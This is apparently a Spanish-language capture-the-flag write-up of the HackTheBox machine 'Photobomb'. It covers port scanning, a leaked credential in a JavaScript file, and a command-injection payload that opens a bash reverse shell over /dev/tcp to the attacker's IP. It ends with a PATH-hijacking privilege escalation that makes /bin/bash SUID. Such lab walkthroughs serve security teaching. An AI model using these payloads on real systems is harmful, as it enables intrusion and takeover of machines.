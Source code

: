 ```yaml
---
title: HackTheBox - Photobomb
author: cotes
date: 2023-09-20 17:51:00 +0800
categories: [Writeup, HackTheBox, Easy]
tags: [Linux, 'Information Leakage', 'Command Injection', 'Path Hijacking']
math: true
mermaid: true
image:
  path: /assets/images/HTB/Easy/Photobomb/logo.jpg
  lqip: data:image/webp;base64,UklGRpoAAABXRUJQVlA4WAoAAAAQAAAADwAABwAAQUxQSDIAAAARL0AmbZurmr57yyIiqE8oiG0bejIYEQTgqiDA9vqnsUSI6H+oAERp2HZ65qP/VIAWAFZQOCBCAAAA8AEAnQEqEAAIAAVAfCWkAALp8sF8rgRgAP7o9FDvMCkMde9PK7euH5M1m6VWoDXf2FkP3BqV0ZYbO6NA/VFIAAAA
  alt: Photobomb Machine Logo
---
```


Máquina Linux de nivel **Easy** de HackTheBox.

Técnicas usadas: **Information Leakage, Command Injection, Path Hijacking**

### Fase de Reconocimiento 🧣

a. Enumeramos los puertos que están abiertos.

* **`nmap -p- -sS -Pn -n <IP> -oG puertos`**

    ![](/assets/images/HTB/Easy/Photobomb/01-ports.png)

b. Vemos las versiones de los servicios que se están ejecutando en los puertos abiertos

* **`nmap -p<Puertos> -sCV <IP> -oN versiones`**

    ![](/assets/images/HTB/Easy/Photobomb/02-versions.png)

* Si visitamos la página web nos redirigirá a **photobomb.htb**, así que lo agregamos al /etc/hosts

c. Al inspeccionar el sitio web nos encontramos con un fichero `photobomb.js` el cual contiene una credencial para el directorio **/printer**

```js
('href','http://pH0t0:b0Mb!@photobomb.htb/printer');
```

d. Una vez entremos a este sitio, veremos que podemos redimensionar imágenes para descargarlas. Capturamos la petición con Burp Suite y empezamos a jugar con los parámetros

![](/assets/images/HTB/Easy/Photobomb/03-web.png)

![](/assets/images/HTB/Easy/Photobomb/04-web.png)

> Si manipulamos el parámetro `dimensions` obtendremos diferentes respuestas, así que podemos intuir que es vulnerable a una inyección de comandos.
{: .prompt-tip }

* Para saber si tenemos ejecución de comandos, nos pondremos en escucha de trazas ICMP y enviaremos un ping

![](/assets/images/HTB/Easy/Photobomb/05-ping.png)

![](/assets/images/HTB/Easy/Photobomb/06-tcp.png)

e. Al tener ejecución de comandos, nos entablamos una reverse shell

```bash
Payload Burp Suite: dimensions=30x20%0a`bash -c "bash -i >%26 /dev/tcp/<tun0 IP>/443 0>%261"`
----------------------------------------------------------------------------------------------
❯ nc -lvnp 443
bash-5.0$ whoami
wizard
```

### Escalada de Privilegios 💹

a. Listamos nuestros permisos a nivel de sudoers

```bash
bash-5.0$ sudo -l
User wizard may run the following commands on photobomb:
    (root) SETENV: NOPASSWD: /opt/cleanup.sh
```

* Analizamos el script `/opt/cleanup.sh`

    ```bash
    bash-5.0$ cat cleanup.sh
    #!/bin/bash
    . /opt/.bashrc
    cd /home/wizard/photobomb

    # clean up log files
    if [ -s log/photobomb.log ] && ! [ -L log/photobomb.log ]
    then
    /bin/cat log/photobomb.log > log/photobomb.log.old
    /usr/bin/truncate -s0 log/photobomb.log
    fi

    # protect the priceless originals
    find source_images -type f -name '*.jpg' -exec chown root:root {} \;
    ```

    * Conclusiones:
        + [x] El script carga las configuraciones de `/opt/.bashrc`
        + [x] **find** se llama de forma relativa por lo que es vulnerable a un **Path Hijacking**
        + [x] El permiso `SETENV` nos permite indicar un PATH para la ejecución del script

* Vemos una configuración 'novedosa' en **/opt/.bashrc**

    ```bash
    # Jameson: caused problems with testing whether to rotate the log file                                                                                        
    enable -n [ # ]
    ```

    > `[` es un comando integrado en la bash, pero, al indicar `enable -n [` deshabilitamos esta opción. Por lo que se vuelve otro comando el cual se llama de forma relativa y también es vulnerable a **Path Hijacking**
    {: .prompt-info }

b. Conseguimos acceso como root con un Path Hijacking

```bash
bash-5.0$ echo -n 'chmod +s /bin/bash' > [
bash-5.0$ chmod +x [
bash-5.0$ sudo PATH=/tmp:$PATH /opt/cleanup.sh
bash-5.0$ bash -p
whoami
root
```